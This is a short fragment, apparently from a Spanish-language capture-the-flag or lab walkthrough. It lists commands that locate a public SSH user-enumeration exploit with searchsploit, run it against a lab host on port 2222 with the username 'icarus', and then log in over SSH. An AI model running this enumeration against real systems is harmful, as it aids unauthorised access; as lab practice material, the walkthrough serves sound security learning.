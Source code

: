 - `searchsploit ssh enumeration`			// exploits/linux/remote/45233.py
- `python 45233.py --username icarus --port 2222 10.10.10.83 2>/dev/null` 		// Uso del exploit, donde icarus es un nombre de usuario válido.
- `ssh -p2222 icarus@10.10.10.83`		// conexión vía ssh


